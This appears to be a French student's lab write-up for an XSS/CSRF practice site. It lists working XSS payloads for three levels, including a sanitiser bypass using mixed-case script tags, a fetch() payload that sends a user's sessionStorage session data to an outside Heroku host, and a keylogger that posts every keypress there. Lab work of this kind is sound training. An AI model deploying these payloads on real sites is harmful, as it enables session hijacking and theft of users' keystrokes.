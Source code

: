 # XSS-CSRF
https://xss-csrf-tp.herokuapp.com/men
## Partie 1 - XSS

### Level 1 : 
Pour ce niveau, j’ai décidé d’intégrer une image dans l’URL qui affiche un message d’erreur  si elle n’est pas trouvée → une popup d’erreur s’affiche https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22alert%22%20onerror=%22alert(%27danger%27)%22%3E 

### Level 2 :
* Pour ce niveau,  j’ai repris ma démarche précédente en insérant <img src="alert" onerror="alert('danger')"> dans le champ titre du formulaire ainsi l’image qui doit être affiché n’est pas trouvée → une popup d’erreur s’affiche par contre <script>alert(‘danger’)</script> ne fonctionne pas
* On dirait que le navigateur protége le site en effectuant un genre d’escape
* L’API Fetch de JS effectue une requete asynchrone en utilisant un appel AJAX pour recuperer les données
* La solution que je prefere est <img src="danger" onerror="while(true) { alert(‘danger’); }">
* Pour envoyer sur heroku la session de l’utilisateur de maniere invicible, j’utilise : <img src="danger" onerror="fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({sessionName: sessionStorage.SessionName, session: sessionStorage.getItem('SESSIONDANGER')})})">

### Level 3 :
* Pour rusez le bypass du sanitizer, j’ai simplement ajouter des majuscule dans les balise script ainsi les scripts sont ajouté dans le DOM
* Pour faire un keylogger en JS qui envoie les données sur heroku : <sCript>document.addEventListener('keypress', function(event) { console.log(String.fromCharCode( event.which )); fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({keypressed: String.fromCharCode( event.which )})})}); </sCript>

## Partie 2 - CSRF

En construction

